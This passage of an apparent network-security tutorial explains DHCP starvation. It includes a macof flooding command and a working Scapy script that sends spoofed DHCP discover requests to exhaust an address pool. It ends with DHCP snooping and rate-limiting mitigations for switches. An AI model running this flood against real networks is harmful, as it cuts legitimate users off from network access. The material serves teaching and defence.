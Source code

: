 **2. Launch macof**
```css
sudo macof -i eth0
```

This command generates thousands of fake MAC addresses on the network, causing the DHCP server to assign IP addresses rapidly.

### **Example Using Scapy for Custom Attack**

**Scapy** is a Python library for network packet manipulation. You can use it to write a custom script for DHCP starvation.

**1. Install Scapy**
```css
sudo pip install scapy
```

**2. Scapy Script for DHCP Starvation**

```python
from scapy.all import *

def dhcp_starvation():
    for i in range(1000):  # Flooding with 1000 fake requests
        fake_mac = RandMAC()
        dhcp_discover = (
            Ether(src=fake_mac, dst='ff:ff:ff:ff:ff:ff') /
            IP(src="0.0.0.0", dst="255.255.255.255") /
            UDP(sport=68, dport=67) /
            BOOTP(chaddr=[mac2str(fake_mac)]) /
            DHCP(options=[("message-type", "discover"), "end"])
        )
        sendp(dhcp_discover, iface="eth0", verbose=False)

dhcp_starvation()
```

**3. Run the Script**
```css
sudo python3 dhcp_starvation.py
```

### **Mitigating DHCP Starvation Attacks**

1. **Enable DHCP Snooping**: Configure DHCP Snooping on your switches to block unauthorized DHCP servers and monitor DHCP traffic.
    ```css
    Switch(config)# ip dhcp snooping
    Switch(config)# ip dhcp snooping vlan 10
    Switch(config)# interface FastEthernet 0/1
    Switch(config-if)# ip dhcp snooping trust
    ```

2. **Limit DHCP Requests**: Configure rate limiting on your network switches.
    ```css
    Switch(config-if)# ip dhcp snooping limit rate 10
    ```
